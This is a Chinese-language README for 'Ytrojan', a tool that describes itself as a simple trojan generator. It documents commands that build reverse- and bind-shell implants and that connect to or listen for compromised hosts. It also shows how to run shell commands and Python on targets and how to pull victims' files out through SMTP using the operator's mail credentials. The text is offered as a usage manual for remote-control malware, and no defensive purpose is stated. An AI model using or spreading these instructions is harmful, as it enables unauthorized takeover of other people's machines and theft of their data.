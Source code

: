 # Ytrojan

Ytrojan 一个简易的木马生成工具

## 选择语言/Select Your Language

   [English](/README.md)|简体中文

## 如何使用Ytrojan

用Python 3.10或以上版本的解释器运行Main-Cmd.py

运行结果
```
__   ___             _             
\ \ / / |_ _ __ ___ (_) __ _ _ __  
 \ V /| __| '__/ _ \| |/ _` | '_ \ 
  | | | |_| | | (_) | | (_| | | | |
  |_|  \__|_|  \___// |\__,_|_| |_|
                  |__/             
                                      
Ytrojan $>
```  

### 使用generate命令生成被控端  

```
generate [选项] [路径] [ip] [port]

1. [选项] 可选0和1
   当选项的值为0时 生成的为反向被控端
   当选项的值为1时 生成的为正向被控端
2. [路径] 被控端生成位置
3. [ip] 本机或目标的ip
   [port] 本机或目标的port
   当选项的值为0时 ip与port为本机
   当选项的值为1时 ip与port为被控端

当弹出 parameters $> 意味这您需要提供您想要的被控端功能
目前仅支持 shell,getfile,pycmd

例如您想要被控端可以执行shell和py语句 您可以这样操作
parameters $>shell pycmd

```  

### 使用connect命令连接正向木马的被控端

```
connect [ip] [port]

1. [ip][port] 均为目标
2. 此命令要运行在被控端之后!
```  

### 使用listen命令接受反向木马被控端的连接  

```
listen [ip] [port]

1. [ip][port] 均为本机
2. 此命令要运行在被控端之前!
```  

### 如何操作目标  

在连接到目标后 可以通过以下命令操作(连接到目标或会输出"ip $>")  

```
1. shell [命令]         #执行shell
2. getfile [文件路径]    #获取文件
3. pycmd [语句]         #执行python语句
```  

例如
```
1. shell whoami #执行whoami
   shell id     #执行id
   shell ls     #执行ls

2. getfile a.txt    #获取a.txt
   getfile /a.jpg   #获取根目录下的a.jpg  

3. pycmd print('hello world')    #在目标上输出hello world
   pycmd import os;print(os.name)#获取目标操作系统信息
```  

在这其中请注意shell和getfile命令!!!

shell命令是非交互式shell 您无法执行vim sudo 这样的命令!!!  

getfile使用smtp传输文件 您在使用时要先如下操作!!!  

```
$> pycmd host = "smtp服务器域名" #例如163的smtp.163.com
YES
$> pycmd port = "smtp服务所在端口" #一般是25端口
YES
$> pycmd username = "您的邮箱"
YES
$> pycmd password = "smtp运营商提供给您的密码" 
YES
$>....
```
